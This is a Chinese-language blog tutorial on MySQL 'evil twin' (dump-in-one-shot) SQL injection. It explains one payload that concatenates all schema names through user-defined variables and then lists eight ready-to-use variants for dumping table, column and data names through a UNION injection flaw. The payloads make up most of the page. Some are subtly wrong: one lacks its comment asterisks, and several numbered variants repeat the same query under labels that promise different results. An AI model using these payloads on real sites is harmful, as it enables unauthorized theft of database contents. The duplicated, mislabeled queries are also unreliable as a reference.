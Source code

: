 
---

title: SQL Evil Twin Injection

urlname: uh0b87

date: 2019-10-22 11:30:50 +0800

tags: [Security,SQL Injection]

---
SQL evil twin injection是一种可以从数据库中快速获取全部数据的注入方法。它的注入语句使用了SQL用户自定义变量（User Defined Variable），因此语法上不大容易理解。这篇教程将详细介绍常用的SQL evil twin injection语句，以及该语句的含义。

先从一个最常用的注入语句开始，利用evil twin injection来获取所有的数据库（database）信息。
```sql
(select (@a) from (select(@a:=0x00),(select  (@a) from (information_schema.schemata)where (@a)in (@a:=/ !50000concat/(@a,schema_name,'<br>
'))))a)
```

为了方便理解，将以上语句稍做格式化，如下：
```sql
(select (@a) 
 from (select (@a:=0x00),(select (@a) 
                          from (information_schema.schemata)
	                        where (@a)in (@a:=/ !50000concat/(@a,schema_name,'<br>'))
                         )
      ) a)
```

这是一个嵌套的SQL语句：内层的子查询构造了一个名为a的临时表，然后外层的查询语句从临时表a中查询出[用户自定义变量](https://www.geeksforgeeks.org/mysql-user-defind-variables/)@a。首先解读下内层子查询语句：

1. 这是一条不包含from子句的select语句，查询的结果生成一个两列的临时表a。第一列的值是@a:=0x00。第二列的值是一条select语句的结果@a。
1. @a是一个用户自定义变量。在执行(@a:=0x00)时，它被赋值为0x00。为什么这里必须要赋值？因为如果不赋值的话，新定义的用户自定义变量的默认值是NULL。这样在执行后面那条查询语句的where子句中的concat函数时，由于第一个参数是NULL，因此会导致concat返回NULL，而无法获取到schema_name。
1. 在执行完(@a:=0x00)这条赋值语句后，SQL引擎将执行
```sql
(select  (@a) 
 from (information_schema.schemata) 
 where (@a) in (@a:=/!50000concat/(@a,schema_name,'<br>')))
```

4. 按照[SQL语句的执行顺序](https://www.periscopedata.com/blog/sql-query-order-of-operations)，首先SQL引擎将找到information_schema.schemata表，然后执行where子句中的in子句。当MySQL版本大于5.0.0时，/!50000concat/将变成concat。也就是说in子句会将所有的schema_name连接成一个字符串，不同的schema_name使用'<br>'作为分隔符。所生成的结果字符串再赋值给用户自定义变量@a。第三行中的where子句永远为真，因此这条子查询的目的是获取所有的schema_name，并赋值给用户自定义变量@a。
4. 最终的临时表a包含两列，第一列是@a:=0x00，第二列是concat语句的结果，包含所有的shema_name。
4. 再来看最后的一个select语句，也就是第一行的select语句。由于临时表a并没有列名，因此select (@a)将获取到@a最新的值，也就是所有的shema_name。

当要注入的数据库存在UNION注入漏洞时，可以利用以上的查询语句获取所有的数据库名。将以上语句稍做修改，可以产生更多的变种：

1. 获取所有的表名

```sql
(select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.tables)where (@a)in (@a:=/*!50000concat*/(@a,table_name,'<br>'))))a)
```

2. 获取information_schema之外的所有表名

```sql
(select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.tables)where table_schema!='information_schema' and(@a)in (@a:=/*!50000concat*/(@a,table_schema,0x3a,table_name,'<br>'))))a)
```

3. 获取所有的数据库和表名

```sql
(select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.columns)where table_schema!='information_schema' and(@a)in (@a:=/*!50000concat*/(@a,table_schema,' > ',table_name,' > ',column_name,'<br>'))))a)
```

4. 获取所有的数据库、表名和列名

```sql
(select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.columns)where table_schema!='information_schema' and(@a)in (@a:=/*!50000concat*/(@a,table_schema,' > ',table_name,' > ',column_name,'<br>'))))a)
```

5. 获取包含特定字符串的表名

```sql
(select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.columns)where table_schema!='information_schema' and table_name like 'Hacker_%' and(@a)in (@a:=concat(@a,table_schema,' > ',table_name,' > ',column_name,'<br>'))))a)
```

6. 获取每个表和所有的列名

```sql
(select (@a) from (select(@a:=0x00),(@tbl:=0x00),(select (@a) from (information_schema.columns) where (table_schema!='information_schema') and(0x00)in (@a:=concat(@a,0x3c62723e,if( (@tbl!=table_name), Concat(0x3c62723e,table_schema,' :: ',@tbl:=table_name,'',column_name), (column_name))))))a)
```

7. 获取每个表、行数和所有列名

```sql
(select (@a) from (select(@a:=0x00),(@tbl:=0x00),(select (@a) from (information_schema.columns) where (table_schema!='information_schema') and(0x00)in (@a:=concat(@a,0x3c62723e,if( (@tbl!=table_name), Concat(0x3c62723e,table_schema,' :: ',@tbl:=table_name,'',column_name), (column_name))))))a)
```

8. 从一个表中获取列数据

```sql
(select (@a) from (select(@a:=0x00),(@tbl:=0x00),(select (@a) from (information_schema.columns) where (table_schema!='information_schema') and(0x00)in (@a:=concat(@a,0x3c62723e,if( (@tbl!=table_name), Concat(0x3c62723e,table_schema,' :: ',@tbl:=table_name,'',column_name), (column_name))))))a)
```

参考资料：

1. [http://www.securityidiots.com/Web-Pentest/SQL-Injection/sql-evil-twin-injection.html](http://www.securityidiots.com/Web-Pentest/SQL-Injection/sql-evil-twin-injection.html)
1. [http://www.creatigon.com/blog/dios-query-collections/](http://www.creatigon.com/blog/dios-query-collections/)

